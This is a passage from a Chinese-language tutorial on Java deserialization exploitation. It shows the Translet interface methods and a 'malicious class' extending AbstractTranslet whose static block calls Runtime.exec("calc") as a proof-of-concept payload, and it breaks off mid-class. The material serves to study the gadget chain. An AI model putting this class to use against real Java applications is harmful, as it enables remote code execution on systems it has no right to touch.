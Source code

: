 ![img](img/1667975974725-42e0549d-6f4f-456b-bd83-1303cdaf718d.png)

当然除此之外，还需要去看它的接口中的方法有没有全部实现，只列出来重要的，因为其他的也都实现了。没必要提及。

```java
public void transform(DOM document, SerializationHandler handler)
        throws TransletException;
public void transform(DOM document, SerializationHandler[] handlers)
        throws TransletException;
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
        throws TransletException;
```

参数不同的构造方法，而上面的图中也显示了只实现了两个，还差一个

```java
public void transform(DOM document, SerializationHandler[] handlers)
```

到此，也就是最后需要实现的两个方法，最后的恶意类应该这么写

```java
package com.common.cc;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
```